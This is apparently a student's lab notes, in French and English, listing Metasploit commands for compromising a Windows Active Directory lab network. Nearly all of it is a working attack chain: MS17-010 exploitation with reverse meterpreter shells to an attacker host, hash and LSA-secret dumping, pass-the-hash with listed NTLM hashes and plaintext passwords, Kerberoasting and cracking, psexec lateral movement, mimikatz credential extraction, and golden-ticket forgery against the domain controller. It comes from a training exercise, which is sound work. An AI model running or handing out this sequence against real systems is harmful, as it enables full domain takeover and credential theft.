 # Commandes du laboratoire SOS Windows

## 3.1

### recon

```
db_nmap -Pn -n -F 172.22.4.0/29 --open
use auxiliary/scanner/smb/smb_version
services -p 445 -R
run
```

## 3.2

### trouver les vuln ms17

```
use auxiliary/scanner/smb/smb_ms17_010
services -p 445 -R
run
```

.6 et .7 sont vuln

### exploit de la vuln, reverse shell dans la .7

```
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 172.22.4.7
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.3.151
run
```

## 3.3

### récup des mdp

```
run post/windows/gather/hashdump
run post/windows/gather/cachedump
run post/windows/gather/lsa_secrets
run post/windows/gather/credentials/gpp
run post/windows/gather/credentials/domain_hashdump
```

### test si les mdp sont utilisés sur d'autres machines

```
s
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e89aa5264c5da7e343276524d47d36b3
set SMBDomain .
services -p 445 -R
run
```

### test le compte svc_sched sur les machines

```
use auxiliary/scanner/smb/smb_login
set SMBUser svc_sched
set SMBPass K33pAlive4ever
set SMBDomain .
services -p 445 -R
run
```

## 3.4

### recherche des SPN sur la .6/.7

```
shell
setspn -T wad.local -Q */*
```

### get vuln SPN

```
use auxiliary/gather/get_user_spns
set RHOSTS 172.22.4.2
set user svc_sched
set pass K33pAlive4ever
set domain wad.local
run
```

### crack TGS
```
john --format=krb5tgs [hash_file]
```

### test adm-sql/Andromeda1 sur toutes les machines

```
use auxiliary/scanner/smb/smb_login
services -p 445 -R
set SMBUser adm-sql
set SMBPass Andromeda1
set SMBDomain wad.local
run
```

Admin account on .4

## 3.5

### connect to .4

```
use exploit/windows/smb/psexec
set RHOSTS 172.22.4.4
set SMBUSer adm-sql
set SMBPass Andromeda1
set SMBDomain wad
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.3.151
run
```

### get some pwd

```
load kiwi
creds_all
```

Get ntlm hash 2e71..4f3

### connect to another vuln machine (.5)

```
use exploit/windows/smb/psexec
set RHOSTS 172.22.4.5
set SMBUSer Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:2e71b731ab1d9633b426042fa274e4f3
set SMBDomain .
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.3.151
run
```

### get pwd for .2

```
load kiwi
creds_all
```

### connect to .2

```
use exploit/windows/smb/psexec
set RHOSTS 172.22.4.2
set SMBUSer Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:24932905c77797ff123f3cc94f3e2bdd
set SMBDomain WAD
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.3.151
run
```

## 3.6

### connect to sql srv

```
use exploit/windows/smb/psexec
set RHOSTS 172.22.4.4
set SMBUSer adm-sql
set SMBPass Andromeda1
set SMBDomain wad
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 172.22.3.151
run
```

### find pid of student15

```
shell
tasklist /v
exit
```

Process id was 4264.

### migrate into process

```
migrate 4264
getuid
```

### getsid

```
shell
whoami /all
exit
```

### clean up

```
load kiwi
kiwi_cmd kerberos::purge
```

### try mounting disk C of DC

```
shell
net use x: \\WAD-DC-SRV2\C$
exit
```

### generate and inject golden ticket

```
golden_ticket_create -d wad.local -u groupe_15 -s S-1-5-21-2457413560-2955850660-1781579164 -k 64fec6cf9ed3b1d61b90f002f7e27999 -t golden_ticket.kirbi
kerberos_ticket_use golden_ticket.kirbi
```

### retry mounting disk C

```
shell
net use x: \\WAD-DC-SRV2\C$
exit
```

### access logs

```
load powershell
powershell_shell
Get-EventLog -LogName Security -ComputerName WAD-DC-SRV2 -Newest 30 | Where-Object {$_.EventID -eq 4624} | Select-Object -Property TimeGenerated, EventID,@{Label="Username";Expression={$_.replacementstrings[5]}}
exit
```
